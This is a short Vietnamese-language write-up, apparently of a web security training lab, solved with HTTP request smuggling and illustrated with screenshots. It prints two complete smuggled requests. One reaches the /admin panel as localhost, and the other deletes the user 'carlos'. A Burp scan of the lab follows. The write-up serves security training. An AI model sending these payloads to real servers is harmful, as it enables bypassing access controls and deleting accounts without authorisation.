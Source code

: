 ```http!
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 116
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```

![image](https://hackmd.io/_uploads/HJRgYSjpp.png)

- bây giờ bạn có thể truy cập bảng quản trị và chỉ cần xóa carlos

```http!
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 139
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```

![image](https://hackmd.io/_uploads/rJ-3YHspT.png)

và lab đã được solve

![image](https://hackmd.io/_uploads/r1Cyqrjpp.png)

### Burp scan

- mình quét lại bài lab với burp scan

![image](https://hackmd.io/_uploads/Bydz5Bj66.png)

![image](https://hackmd.io/_uploads/r1-X9SoaT.png)

![image](https://hackmd.io/_uploads/B1uX5SjTp.png)
